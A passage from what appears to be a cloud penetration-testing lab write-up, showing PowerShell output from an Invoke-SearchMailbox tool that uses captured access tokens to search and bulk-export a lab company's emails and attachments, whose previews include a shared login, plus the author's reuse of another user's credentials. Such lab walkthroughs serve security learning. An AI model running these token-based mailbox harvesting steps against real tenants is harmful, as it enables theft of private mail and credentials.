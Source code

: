 ```powershell
Location: https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/SiteAssets/Forms/DispForm.aspx?ID=2    ...snip...
================================================================================                       
...snip...
...snip...


```

It is such a pain to view Excel file in Linux, hence I decided to cheat little bit. I used Security-User credentials to view the content. 


### 2.3.2 Invoke-SearchMailbox


```powershell
PS> Invoke-SearchMailbox -SearchTerm * -Tokens $tokens                                                                                                                                     
[*] Using the provided access tokens.                                                         
[*] Found 98 matches for search term *                                                                                                                                                       
Subject: Subscribers database | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-17 | Receivers: Sam Ols
son | Date: 11/06/2023 17:24:50 | Message Preview: Hi Sam, IT have set up our access to the subscriptions database, so we can start pulling on this data for the quarterly management metrics
. Shared login below: Username: ...                                                                                                                                                          
================================================================================          
Subject: RE: Quick Heads-Up on This Month's Recons! | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-1
7 | Receivers: Sam Olsson | Date: 11/06/2023 14:59:37 | Message Preview: Sounds good. Thanks! From: Sam Olsson <Sam.Olsson@megabigtech.com> Sent: Monday, November 6, 2023 2:52 PM To: Clara 
Miller <Clara.Miller@megabigtech.com> Subject: Quick Heads-Up on...                           
================================================================================
Subject: Quick Heads-Up on This Month's Recons! | Sender: Sam.Olsson@megabigtech.com | Receivers: Clara Miller | Date: 11/06/2023 14:51:56 | Message Preview: Hey Clara, Hope you're doing we
ll! Just wanted to drop you a quick note about the reconciliations we've got lined up for the end-of-month close. Here's what's on the deck: Bank ...
================================================================================                                                                                                             
[*] Do you want to download these emails and their attachments? (Yes/No)
yes          
WARNING: Resulting JSON is truncated as serialization has exceeded the set depth of 2.
[*] Emails and attachments have been exported to the folder mailsearch-20240912115820.        
[*] A simple emailviewer.html has been provided to view the exported emails.
[*] To use it run the Invoke-HTTPServer module in the mailsearch-20240912115820 directory and then navigate to http://localhost:8000/emailviewer.html  


PS>  Invoke-HTTPServer

```
Another cool feature is that I can download emails and read it via web browser. 
![](https://i.imgur.com/8fuNyoI.png)
